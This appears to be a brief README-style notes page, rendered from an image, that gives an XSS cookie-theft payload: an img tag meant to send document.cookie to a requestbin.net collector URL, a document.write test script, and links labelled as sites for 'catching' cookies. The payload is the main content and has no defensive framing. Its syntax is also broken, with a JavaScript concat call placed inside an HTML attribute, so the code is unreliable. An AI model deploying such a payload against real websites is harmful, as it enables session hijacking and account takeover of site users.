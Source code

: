 
#h1 Script 

```javascript
<img src="http://requestbin.net/r/zacnyyza?PARAMSPECIAL2=".concat(document.cookie)/>
<script> document.write("Hello World!"); </script>

```

#h1 Site for catching cookie
[Request Bin](http://requestbin.net/)

#h1 Site for test catching
[ReqBin](https://reqbin.com/)





